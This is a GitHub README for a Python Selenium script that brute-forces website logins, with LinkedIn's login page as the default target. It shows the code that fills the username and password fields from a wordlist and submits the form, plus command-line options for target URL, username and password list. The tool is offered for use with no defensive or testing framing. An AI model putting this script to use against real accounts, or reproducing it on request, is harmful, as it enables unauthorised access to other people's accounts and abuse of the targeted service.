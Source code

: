 # Selenium-Brute-Force
A simple python script for doing brute-force attack using selenium.

## Help
- The default script is useful for Linkedin, but it works for everything. For other platforms, it needs to extract username id, password id, and login button class using browser inspector.
![](https://github.com/mohammadkamrani/Selenium-Brute-Force/blob/main/2021-01-20_14-43-37.jpg)<br />

put them in code.
```python
username = driver.find_element_by_id("username")		
username.clear()
print("username: "+curuser)
username.send_keys(curuser)		
password = driver.find_element_by_id("password")
password.clear()
print("password: "+passw+"\n")
password.send_keys(passw)			
driver.find_element_by_class_name('login__form_action_container').click()
```
- -h, --help  show this help message and exit
- -t    target's url: https://www.linkedin.com/uas/login
- -u    username
- -p    wordlist: for example password.txt

![](https://github.com/mohammadkamrani/Brute-Force/blob/main/ezgif.com-video-to-gif.gif)

